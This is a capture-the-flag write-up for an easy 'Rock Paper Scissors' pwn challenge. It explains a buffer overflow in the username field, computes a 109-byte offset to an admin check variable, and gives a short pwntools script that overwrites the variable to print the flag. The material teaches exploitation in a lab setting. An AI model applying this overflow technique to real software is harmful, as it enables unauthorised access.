





## Challenge Name : Rock Paper Scissors
Category: PWN
Points:  50
Difficulty: Easy

Artifact files:
* [rps](rps)

Description: Rock Paper Scissors, SHOOT

### Observations

Starting the program, we get prompted with a username input. After this it seems like this is just
some sort of normal Rock Paper Scissors game against a robot who plays random inputs but there is also
another option called "Shoot" which, when choosen, says it's a special admin only functionality.

Now this seems suspicious, maybe we'll have to somehow give ourselves access to this admin functionality ??

Let's look at the assembly code to confirm that.

Before the actual program's execution, the flag is loaded in memory through an environment variable and the 
getenv() function:



Now looking at the rest of the code, we find there's a pretty obvious buffer overflow on the username field:




And we can also see that upon choosing option 4 (the weird admin option) the program checks if one of the stack
variables is set to 1 and if it is, prints the flag. Otherwise it'll send us the "only admin authorized" message
that we got earlier.




Luckily for us, we can use our buffer overflow to overwrite this value to 1 and then call the special admin option
on the panel to print ourselves a flag.

The username field is stored at ebp-0x82 and the variable we want to modify is at ebp-0x15. Doing some quick substraction
we get the offset from our input to the variable : 0x82 - 0x15 = 109
Which is in range of our overflow of 150 bytes in username input.

### Exploiting

Now we could make a python command one liner for this but just for the sake of making a clean writeup let's make a script.

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./rps')

if args.REMOTE:
    io = remote() # put your remote here
else:
    io = process()

io.sendlineafter(b': ', b'A'*109+pack(0x1))
io.sendlineafter(b': ', b'4')
io.interactive()
io.close()
```

Here is the script I made. Overflows the value and sets it to 1, then automatically calls the 4th option to print the flag.
Running it locally we get the following output : 



Of course, I don't have the flag environment variable locally so it doesn't print but we can see that it is running
the code that is needed. Running it on the remote will give you the flag :) 

[Back](../../README.md)